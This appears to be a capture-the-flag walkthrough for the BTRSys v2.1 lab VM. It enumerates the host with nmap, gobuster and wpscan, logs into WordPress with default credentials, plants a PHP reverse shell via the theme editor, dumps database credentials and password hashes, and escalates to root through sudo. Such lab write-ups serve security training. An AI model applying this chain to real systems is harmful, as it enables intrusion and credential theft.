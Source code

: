 #  BTRSys: v2.1

## 1.Get VM IP:

```bash
root@kali: arp-scan -I eth1 -l

Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1   00:50:56:c0:00:01       VMware, Inc.
192.168.127.235 00:0c:29:75:68:9d       VMware, Inc.
192.168.127.254 00:50:56:fd:64:8a       VMware, Inc.

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.026 seconds (126.36 hosts/sec). 3 responded
```

The IP address is `192.168.127.235`, let's scan it.

## 2.Enumeration

```bash
root@kali: nmap -sV -sC -oN fullscan -p- 192.168.127.235

Nmap scan report for 192.168.127.235
Host is up (0.00073s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.127.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 08:ee:e3:ff:31:20:87:6c:12:e7:1c:aa:c4:e7:54:f2 (RSA)
|   256 ad:e1:1c:7d:e7:86:76:be:9a:a8:bd:b9:68:92:77:87 (ECDSA)
|_  256 0c:e1:eb:06:0c:5c:b5:cc:1b:d1:fa:56:06:22:31:67 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_Hackers
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:75:68:9D (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
Port 21 has nothing to do with. so we start fuzzing on port 80 ;

```bash
root@kali: gobuster dir --url http://192.168.127.235 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

/upload               (Status: 301) [Size: 319] [--> http://192.168.127.235/upload/]
/wordpress            (Status: 301) [Size: 322] [--> http://192.168.127.235/wordpress/]
/javascript           (Status: 301) [Size: 323] [--> http://192.168.127.235/javascript/]
/INSTALL              (Status: 200) [Size: 1241]
/LICENSE              (Status: 200) [Size: 1672]
/COPYING              (Status: 200) [Size: 35147]
/CHANGELOG            (Status: 200) [Size: 224]
```

so we have wordpress here, we can enumerate it with `wpscan` :

```bash
root@kali: wpscan --url http://192.168.127.235/wordpress -e u,vp
...
[i] User(s) Identified:

[+] btrisk
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

##3. Gaining Shell

Now we can test the admin panel with these users, i tried to login with `admin:admin` and it worked.

all we need to do now is to use a reverse shell in `Appereance -> editor -> Main Index Template (index.php) `

start a listener and use a PHP pnetest monkey reverse shell.

## 4.Privilege Escalation

Navigate to `/var/www/html/wordpress` and see the content of `wp-config.php` :

```text
/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'rootpassword!');
```

connect to mysql on the localhost (stabilize your shell first) :

```bash
mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| deneme             |
| mysql              |
| performance_schema |
| phpmyadmin         |
| sys                |
| wordpress          |
+--------------------+

mysql> use wordpress;
mysql> select * from wp_users;

+----+------------+----------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                        | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+----------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | root       | a318e4507e5a74604aafb45e4741edd3 | btrisk        | mdemir@btrisk.com |          | 2017-04-24 17:37:04 |                     |           0 | btrisk       |
|  2 | admin      | 21232f297a57a5a743894a0e4a801fc3 | admin         | ikaya@btrisk.com  |          | 2017-04-24 17:37:04 |                     |           4 | admin        |
+----+------------+----------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
exit
```
now crack the `btrisk` hash online or other tools, you find the cracked hash as `roottoor`

change user to btrisk and privide the password :

```bash
www-data@ubuntu:/$ su btrisk
su btrisk
Password: roottoor

btrisk@ubuntu:/$ sudo -l
sudo -l
[sudo] password for btrisk: roottoor

Matching Defaults entries for btrisk on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User btrisk may run the following commands on ubuntu:
    (ALL : ALL) ALL
    (ALL : ALL) ALL


btrisk@ubuntu:/$ sudo su
root@ubuntu:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```


 this is how you can root this machine :)
